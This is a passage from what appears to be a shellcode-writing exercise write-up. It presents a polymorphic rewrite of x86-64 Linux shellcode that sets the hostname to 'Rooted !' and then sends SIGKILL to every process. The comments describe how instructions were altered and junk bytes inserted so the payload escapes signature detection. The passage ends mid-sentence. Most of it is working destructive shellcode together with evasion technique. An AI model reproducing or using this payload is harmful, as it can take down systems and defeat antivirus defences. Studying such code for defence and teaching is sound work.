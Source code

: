 The Polymorphic version created is (comments of changes in the code):

```asm
global _start

section .text

_start:

        jmp real_start
        string: db "Rooted !"

real_start:

        ;-- setHostName("Rooted !"); 22 bytes --;
        ;mov     al, 0xaa
        ; RAX needs the 0xaa value.
        ; 1.- First RAX will take value 70
        ; 2.- Value 100 is added to rax
        ; 3.- RDX is used to pur some garbage in the shellcode
        push 70
        pop rax
        cdq                        ; Garbage (1 byte
        push 100
        pop rdx
        add rax, rdx

        ; Let's define a string and use Relative Addressing
        ;mov     r8, 'Rooted !'
        ;push    r8
        ;mov     rdi, rsp
        lea rdi, [rel string]

        ;mov     sil, 0x8
        push 0x08
        pop rsi

        syscall

        ;-- kill(-1, SIGKILL); 11 bytes --;
        push    byte 0x3e
        pop     rax
        
        ; Let's push 0xc1 into RDI
        ; Then add RAX to RDI
        ; 0xff = 0x3e + 0xc1
        ;push    byte 0xff
        ;pop     rdi
        push byte 0xc1
        pop rdi
        add rdi, rax                    ; RAX already has 0x3e value

        ; RSI comes with a 0x08 value from previous code
        ; Just need to Inc it to get the 0x09 value
        ;push    byte 0x9
        ;pop     rsi
        inc rsi                         ; RSI has value 0x8 from previous
                                        ;  syscall, then can increment 1
                                        ;  to get the same value of 0x9
        syscall
```
Changes made:
1. A 8 bytes string is defined for storing the `"Rooted !"` instead of doing it in the stack. This **adds 10 bytes** to the shellcode and forces us to: